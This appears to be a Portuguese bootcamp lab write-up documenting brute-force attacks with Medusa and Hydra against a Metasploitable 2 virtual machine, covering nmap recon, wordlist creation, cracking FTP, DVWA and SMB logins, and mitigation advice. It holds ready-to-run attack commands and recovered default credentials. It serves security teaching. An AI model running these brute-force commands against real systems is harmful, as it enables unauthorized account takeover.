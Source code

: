 # 🔐 Projeto: Auditoria de Força Bruta com Medusa & Hydra  
**Autor:** gmsfox
**Data:** 24/10/2025  
**Bootcamp Santander 2025 | DIO — Cibersegurança e Pentest Ético**

---

## 🧭 1. Preparação do Ambiente

**Data do teste:** ‎12‎/‎10‎/‎2025 — 20:51:21  
**Snapshot:** criado antes dos testes (scan rápido e completo)  
**Alvo:** `192.168.56.101` (Metasploitable 2)  
**Atacante:** Kali Linux  
**Rede:** Host-Only no VirtualBox  

---

## 🔎 2. Reconhecimento Básico

**Comando:**
```bash
nmap -sC -sV -oN nmap_rapido.txt 192.168.56.101
```

**Principais portas identificadas:**
```
21/tcp    open  ftp         vsftpd 2.3.4
22/tcp    open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1
23/tcp    open  telnet      Linux telnetd
25/tcp    open  smtp        Postfix smtpd
53/tcp    open  domain      ISC BIND 9.4.2
80/tcp    open  http        Apache httpd 2.2.8 ((Ubuntu) DAV/2)
139/tcp   open  netbios-ssn Samba smbd 3.X - 4.X
445/tcp   open  netbios-ssn Samba smbd 3.0.20-Debian
3306/tcp  open  mysql       MySQL 5.0.51a-3ubuntu5
5432/tcp  open  postgresql  PostgreSQL 8.3.x
8180/tcp  open  http        Apache Tomcat/Coyote JSP engine 1.1
```

---

## 🔍 3. Reconhecimento Completo

**Comando:**
```bash
nmap -A -p- -oN nmap_completo.txt 192.168.56.101
```

**Destaques importantes:**
- FTP anônimo habilitado (`Anonymous FTP login allowed`)  
- SSH ativo (OpenSSH 4.7p1)  
- Serviço SMB vulnerável (`Samba 3.0.20-Debian`)  
- HTTP (DVWA e Tomcat 5.5) expostos  
- MySQL, PostgreSQL e IRC abertos  

🟢 **Vulnerabilidades acionáveis:**  
- Login anônimo FTP → acesso direto sem credenciais  
- Samba sem assinatura → suscetível a força bruta SMB  
- DVWA exposta → alvo ideal para ataque de formulário web  

---

## 🧾 4. Wordlists Criadas

**Arquivo:** `/home/kali/Desktop/wordlist/`

| Nome | Tamanho | Origem |
|------|----------|---------|
| **rockyou.txt** | 133.4 MB | `/usr/share/wordlists/rockyou.txt` |
| **gmsfox6.txt** | 6.7 MB (1 M senhas) | Gerado com `crunch 6 6 0123456789` |
| **user2.txt** | 4 KB | Criado manualmente (`user`, `msfadmin`, `admin`, `root`) |
| **password2.txt** | 4 KB | Criado manualmente (`123456`, `password`, `qwerty`, `msfadmin`) |

**Comandos usados:**
```bash
cp /usr/share/wordlists/rockyou.txt /home/kali/Desktop/wordlist
crunch 6 6 0123456789 -o gmsfox6.txt
echo -e "user\nmsfadmin\nadmin\nroot" > user2.txt
echo -e "123456\npassword\nqwerty\nmsfadmin" > password2.txt
```

---

## 💥 5. Desafio A — Ataque de Força Bruta em FTP (Medusa)

**Comando executado:**
```bash
medusa -h 192.168.56.101 -U /home/kali/Desktop/wordlist/user2.txt -P /home/kali/Desktop/wordlist/password2.txt -M ftp | tee /home/kali/Desktop/wordlist/reports/ftp_results.txt
```

**Resultado:**
```
ACCOUNT FOUND: [ftp] Host: 192.168.56.101 User: msfadmin Password: msfadmin [SUCCESS]
```

**Validação manual:**
```bash
ftp 192.168.56.101
# Login: msfadmin
# Password: msfadmin
230 Login successful.
```

✅ **Acesso confirmado via FTP**.

---

## 🌐 6. Desafio B — Força Bruta em Formulário Web (DVWA)

**Comando:**
```bash
hydra -l admin -P /home/kali/Desktop/wordlist/password2.txt 192.168.56.101 http-form-post "/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:S=location"
```

**Saída:**
```
[80][http-post-form] host: 192.168.56.101   login: admin   password: qwerty
[80][http-post-form] host: 192.168.56.101   login: admin   password: msfadmin
[80][http-post-form] host: 192.168.56.101   login: admin   password: 123456
[80][http-post-form] host: 192.168.56.101   login: admin   password: admin
[80][http-post-form] host: 192.168.56.101   login: admin   password: password
```

**Acesso bem-sucedido:**  
> URL: [http://192.168.56.101/dvwa/login.php](http://192.168.56.101/dvwa/login.php)  
> **Usuário:** admin  
> **Senha:** password  

---

## 🧱 7. Desafio C — Enumeração e Password Spraying em SMB

**Enumeração:**
```bash
enum4linux -a 192.168.56.101 | tee enum4linux.txt
```

**Resumo dos achados:**
- Workgroup: `WORKGROUP`  
- Servidor Samba: `3.0.20-Debian`  
- Usuários detectados: `root`, `ftp`, `postgres`, `msfadmin`, `daemon`, `mysql`, `www-data`, etc.  
- Shares acessíveis:  
  - `tmp` → acesso permitido  
  - `opt`, `print$`, `ADMIN$` → acesso negado  

**Ataque SMB (Medusa):**
```bash
medusa -h 192.168.56.101 -U /home/kali/Desktop/wordlist/user2.txt -P /home/kali/Desktop/wordlist/password2.txt -M smbnt
```

**Resultado:**
```
ACCOUNT FOUND: [smbnt] Host: 192.168.56.101 User: msfadmin Password: msfadmin [SUCCESS (ADMIN$ - Access Allowed)]
```

**Validação:**
```bash
smbclient -L //192.168.56.101/ -U msfadmin
```

**Shares acessíveis:**
```
print$     Disk
tmp        Disk
opt        Disk
ADMIN$     IPC
msfadmin   Disk (Home Directory)
```

✅ **Acesso SMB confirmado via msfadmin:msfadmin**

---

## 🛡️ 8. Recomendações de Mitigação

| Serviço | Risco | Medidas de Mitigação |
|----------|-------|----------------------|
| **FTP** | Acesso anônimo e senhas fracas | Desativar FTP, usar SFTP, implementar fail2ban, forçar políticas de senha forte |
| **DVWA / Web** | Falta de proteção contra brute-force | Adicionar CAPTCHA, MFA, bloquear tentativas excessivas e armazenar senhas com hash |
| **SMB** | Senhas fracas e SMBv1 habilitado | Atualizar para SMBv3, bloquear SMBv1, implementar bloqueio de tentativas e senhas fortes |

---

## 📚 9. Conclusão

Este laboratório simulou um cenário de ataque ético completo, explorando vulnerabilidades comuns de autenticação.  
O aprendizado incluiu:
- Uso prático de **Medusa** e **Hydra**  
- Enumeração com **Nmap** e **Enum4linux**  
- Identificação de **credenciais fracas e serviços vulneráveis**  
- Documentação técnica e mitigação de riscos  

Todos os testes foram realizados em ambiente **controlado e isolado** (VirtualBox host-only).

